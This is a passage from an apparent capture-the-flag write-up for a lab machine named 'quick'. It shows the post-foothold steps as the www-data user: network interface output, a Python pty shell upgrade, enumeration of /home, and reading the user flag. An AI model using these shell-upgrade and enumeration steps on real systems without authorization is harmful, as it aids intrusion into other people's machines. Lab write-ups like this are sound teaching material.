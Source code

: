 ```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:41:d3:56 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.29/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 441sec preferred_lft 441sec
    inet6 fe80::a00:27ff:fe41:d356/64 scope link 
       valid_lft forever preferred_lft forever
/
$ 

```
Since we are www-data and working we have to gain more privileges to own the system.
First we should upgrade our shell a bit.
```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@quick:/$ 
```
Now let's enumerate the home directories of the users and see if we can anything useful from those.
```bash
www-data@quick:/$ ls -ahlR /home
ls -ahlR /home
/home:
total 12K
drwxr-xr-x  3 root   root   4.0K Dec 16 14:38 .
drwxr-xr-x 20 root   root   4.0K Dec 16 14:28 ..
drwxr-xr-x  7 andrew andrew 4.0K Dec 16 18:36 andrew

/home/andrew:
total 48K
drwxr-xr-x 7 andrew andrew 4.0K Dec 16 18:36 .
drwxr-xr-x 3 root   root   4.0K Dec 16 14:38 ..
-rw------- 1 andrew andrew   75 Dec 16 18:50 .bash_history
-rw-r--r-- 1 andrew andrew  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 andrew andrew 3.7K Feb 25  2020 .bashrc
drwx------ 2 andrew andrew 4.0K Dec 16 14:39 .cache
drwx------ 3 andrew andrew 4.0K Dec 16 18:34 .gnupg
drwxrwxr-x 3 andrew andrew 4.0K Dec 16 18:21 .local
-rw-r--r-- 1 andrew andrew  807 Feb 25  2020 .profile
drwx------ 2 andrew andrew 4.0K Dec 16 14:39 .ssh
-rw-r--r-- 1 andrew andrew    0 Dec 16 14:39 .sudo_as_admin_successful
drwx------ 3 andrew andrew 4.0K Dec 16 18:26 snap
-rw-rw-r-- 1 andrew andrew 1.1K Dec 16 18:21 user.txt
ls: cannot open directory '/home/andrew/.cache': Permission denied
ls: cannot open directory '/home/andrew/.gnupg': Permission denied

/home/andrew/.local:
total 12K
drwxrwxr-x 3 andrew andrew 4.0K Dec 16 18:21 .
drwxr-xr-x 7 andrew andrew 4.0K Dec 16 18:36 ..
drwx------ 3 andrew andrew 4.0K Dec 16 18:21 share
ls: cannot open directory '/home/andrew/.local/share': Permission denied
ls: cannot open directory '/home/andrew/.ssh': Permission denied
ls: cannot open directory '/home/andrew/snap': Permission denied
```
We can read the user flag since it has the permissions to be read by everyone. So let's capture it!
```bash
www-data@quick:/$ cat /home/andrew/user.txt
cat /home/andrew/user.txt
```